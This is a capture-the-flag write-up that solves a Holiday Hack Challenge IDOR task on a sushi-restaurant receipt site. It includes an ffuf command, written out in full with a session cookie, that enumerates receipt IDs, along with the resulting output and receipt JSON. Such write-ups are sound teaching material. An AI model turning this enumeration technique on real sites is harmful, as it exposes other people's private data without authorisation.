




# IDORable Bistro

## Challenge Objective



## Challenge Solution

This challenge requires me to exploit an IDOR vulnerability in the [Sasabune](https://its-idorable.holidayhackchallenge.com/) website to find the identity of a gnome asking for frozen sushi. 

The site is for Sasabune, a sushi restaurant. The link provided is for Sasabune's receipt verification system. 

First, I inspect the source code of the page in my browser's developer tools. I found a commented out code block with a test link to a sample receipt. 

```html
<!-- <div class="testing-section">
                <details>
                    <summary>Test Links (Staff Only)</summary>
                    <ul class="demo-links">
                        <li><a href="/receipt/a1b2c3d4">Sample Receipt</a></li>
                    </ul>
                </details>
            </div> -->
```

I opened the sample receipt link, https://its-idorable.holidayhackchallenge.com/receipt/a1b2c3d4. So, the receipt URL format seems to be ```https://its-idorable.holidayhackchallenge.com/receipt/<string of letters and numbers>```.

I want to learn more about how the site works. So I went to my developer tools again, this time looking at the network tab instead of the elements tab where I found the commented out code block with the test link.



In the network tab, I found a request named ```receipt?id=101```. There's a discrepancy between what the user sees in the front end, what they see in the URL when they access a valid receipt versus what's actually being transmitted in the back end. 

I look at the response body for the ```receipt?id=101``` request, and I notice that a valid receipt returns JSON with various fields. 

So to solve this challenge, I need to find a valid receipt ID that has the suspicious gnome's name in the customer field for the order containing frozen sushi. 

Before moving on with that, I want to see what a non-valid receipt returns. I type the URL https://its-idorable.holidayhackchallenge.com/receipt/a1b2c3d5, which returns a custom 404 error page. 



So far, I know:
* Valid receipts return JSON.
* Invalid receipts return a custom HTML 404 page. 
* Valid receipts appear to the user with the format of ```receipt/<string of letters and numbers>``` in the URL.
* Valid receipts are actually processed in the format of ```receipt?id=#``` by the backend of the application as seen in the network request. 

With this information, I have to find a way to quickly enumerate different receipt IDs to see if they return JSON (sign of valid receipt).

Initially, I tried using the ```ffuf``` tool on my Kali Linux VM to quickly fuzz test different receipt IDs. After this doesn't work, I think about whether my assumption about ```/receipt?id=#``` being the real endpoint that returns the JSON responses associated with a valid receipt is correct. 

I load up the test URL found in the page source code again, https://its-idorable.holidayhackchallenge.com/receipt/a1b2c3d4. I find the same network request I looked at earlier, and click around on the different tabs to get more information.

Eventually, I see that in the headers section that the request URL is to https://its-idorable.holidayhackchallenge.com/api/receipt?id=101. This is different from what I had assumed the real endpoint was earlier, https://its-idorable.holidayhackchallenge.com/receipt?id=101.

With this new understanding, I try using the ```ffuf``` tool again in my Kali Linux VM to fuzz some different valid receipt IDs. Once I have that list, I can look at the JSON response for the frozen sushi, and from there find the name of the customer who ordered it. 

After struggling with crafting the right command, I give ChatGPT some context and ask it to generate the command. However, to even test if this command works, I have to get my session cookie and supply it to the command. 

I found the cookie by going to the application tab in the developer tools. The value of my cookie is ```eyJ1c2VyaWQiOiJEZWZhdWx0IFVzZXIifQ.aVryIQ.EfeWBLMh0sII6d9lJluqQjhnMjc```, and I need to pass this value to the ```ffuf``` command. 



```
$ ffuf -u "https://its-idorable.holidayhackchallenge.com/api/receipt?id=FUZZ" \
-w <(seq 1 1000) \
-mc 200 \
-mr '"customer"' \
-H "Accept: application/json" \
-H "X-Requested-With: XMLHttpRequest" \
-H "User-Agent: Mozilla/5.0" \
-H "Cookie: holiday_bistro_session=eyJ1c2VyaWQiOiJEZWZhdWx0IFVzZXIifQ.aVryIQ.EfeWBLMh0sII6d9lJluqQjhnMjc"
```

The ```ffuf``` command runs successfully with the below output.

```
________________________________________________

 :: Method           : GET
 :: URL              : https://its-idorable.holidayhackchallenge.com/api/receipt?id=FUZZ
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : User-Agent: Mozilla/5.0
 :: Header           : Cookie: holiday_bistro_session=eyJ1c2VyaWQiOiJEZWZhdWx0IFVzZXIifQ.aVryIQ.EfeWBLMh0sII6d9lJluqQjhnMjc
 :: Header           : Accept: application/json
 :: Header           : X-Requested-With: XMLHttpRequest
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
 :: Matcher          : Regexp: "customer"
________________________________________________

101                     [Status: 200, Size: 320, Words: 25, Lines: 2, Duration: 46ms]
110                     [Status: 200, Size: 450, Words: 43, Lines: 2, Duration: 41ms]
103                     [Status: 200, Size: 379, Words: 30, Lines: 2, Duration: 46ms]
104                     [Status: 200, Size: 425, Words: 30, Lines: 2, Duration: 46ms]
109                     [Status: 200, Size: 360, Words: 25, Lines: 2, Duration: 45ms]
108                     [Status: 200, Size: 373, Words: 26, Lines: 2, Duration: 46ms]
106                     [Status: 200, Size: 342, Words: 31, Lines: 2, Duration: 48ms]
105                     [Status: 200, Size: 313, Words: 26, Lines: 2, Duration: 49ms]
111                     [Status: 200, Size: 235, Words: 17, Lines: 2, Duration: 45ms]
107                     [Status: 200, Size: 440, Words: 35, Lines: 2, Duration: 48ms]
102                     [Status: 200, Size: 304, Words: 26, Lines: 2, Duration: 52ms]
114                     [Status: 200, Size: 554, Words: 70, Lines: 2, Duration: 45ms]
112                     [Status: 200, Size: 318, Words: 24, Lines: 2, Duration: 49ms]
117                     [Status: 200, Size: 374, Words: 28, Lines: 2, Duration: 45ms]
115                     [Status: 200, Size: 230, Words: 19, Lines: 2, Duration: 48ms]
116                     [Status: 200, Size: 340, Words: 30, Lines: 2, Duration: 46ms]
113                     [Status: 200, Size: 334, Words: 26, Lines: 2, Duration: 50ms]
118                     [Status: 200, Size: 298, Words: 20, Lines: 2, Duration: 50ms]
119                     [Status: 200, Size: 383, Words: 29, Lines: 2, Duration: 49ms]
120                     [Status: 200, Size: 268, Words: 22, Lines: 2, Duration: 47ms]
121                     [Status: 200, Size: 280, Words: 19, Lines: 2, Duration: 48ms]
122                     [Status: 200, Size: 362, Words: 28, Lines: 2, Duration: 49ms]
123                     [Status: 200, Size: 294, Words: 21, Lines: 2, Duration: 41ms]
124                     [Status: 200, Size: 359, Words: 23, Lines: 2, Duration: 41ms]
125                     [Status: 200, Size: 330, Words: 30, Lines: 2, Duration: 44ms]
127                     [Status: 200, Size: 297, Words: 26, Lines: 2, Duration: 43ms]
126                     [Status: 200, Size: 291, Words: 22, Lines: 2, Duration: 48ms]
129                     [Status: 200, Size: 293, Words: 24, Lines: 2, Duration: 44ms]
130                     [Status: 200, Size: 258, Words: 24, Lines: 2, Duration: 42ms]
132                     [Status: 200, Size: 324, Words: 23, Lines: 2, Duration: 42ms]
131                     [Status: 200, Size: 355, Words: 28, Lines: 2, Duration: 47ms]
138                     [Status: 200, Size: 348, Words: 22, Lines: 2, Duration: 39ms]
135                     [Status: 200, Size: 287, Words: 21, Lines: 2, Duration: 43ms]
137                     [Status: 200, Size: 367, Words: 30, Lines: 2, Duration: 41ms]
133                     [Status: 200, Size: 246, Words: 22, Lines: 2, Duration: 45ms]
136                     [Status: 200, Size: 268, Words: 25, Lines: 2, Duration: 43ms]
134                     [Status: 200, Size: 311, Words: 22, Lines: 2, Duration: 45ms]
141                     [Status: 200, Size: 359, Words: 24, Lines: 2, Duration: 42ms]
139                     [Status: 200, Size: 438, Words: 50, Lines: 2, Duration: 44ms]
143                     [Status: 200, Size: 271, Words: 19, Lines: 2, Duration: 43ms]
140                     [Status: 200, Size: 321, Words: 26, Lines: 2, Duration: 46ms]
145                     [Status: 200, Size: 321, Words: 22, Lines: 2, Duration: 42ms]
142                     [Status: 200, Size: 299, Words: 23, Lines: 2, Duration: 47ms]
146                     [Status: 200, Size: 226, Words: 16, Lines: 2, Duration: 44ms]
144                     [Status: 200, Size: 371, Words: 31, Lines: 2, Duration: 45ms]
148                     [Status: 200, Size: 280, Words: 17, Lines: 2, Duration: 47ms]
147                     [Status: 200, Size: 354, Words: 29, Lines: 2, Duration: 47ms]
149                     [Status: 200, Size: 308, Words: 26, Lines: 2, Duration: 50ms]
151                     [Status: 200, Size: 301, Words: 26, Lines: 2, Duration: 45ms]
150                     [Status: 200, Size: 379, Words: 34, Lines: 2, Duration: 51ms]
152                     [Status: 200, Size: 288, Words: 17, Lines: 2, Duration: 48ms]
128                     [Status: 200, Size: 341, Words: 23, Lines: 2, Duration: 100ms]
:: Progress: [1000/1000] :: Job [1/1] :: 634 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
```

After running the ```ffuf``` command, I now have a list of valid IDs that return 200 (OK) responses. These are valid ID numbers for the receipts, and I need to manually test these receipt IDs by inserting the ID into the format ```https://its-idorable.holidayhackchallenge.com/api/receipt?id=#```.

After manually testing these IDs, I see that the receipt ID of 139 returns the suspicious gnome customer that ordered frozen sushi. 

Entering the URL https://its-idorable.holidayhackchallenge.com/api/receipt?id=139 shows the below output. The output mentions the Frozen Roll, and I know that is the sign of the right receipt due to the challenge objective. 

I submit the name of the customer, ```Bartholomew Quibblefrost```, in the text box for the challenge to complete it.    

```json
{"customer":"Bartholomew Quibblefrost","date":"2025-12-20","id":139,"items":[{"name":"Frozen Roll (waitress improvised: sorbet, a hint of dry ice)","price":19.0}],"note":"Insisted on increasingly bizarre rolls and demanded one be served frozen. The waitress invented a 'Frozen Roll' on the spot with sorbet and a puff of theatrical smoke. He nodded solemnly and asked if we could make these in bulk.","paid":true,"table":14,"total":19.0} 
```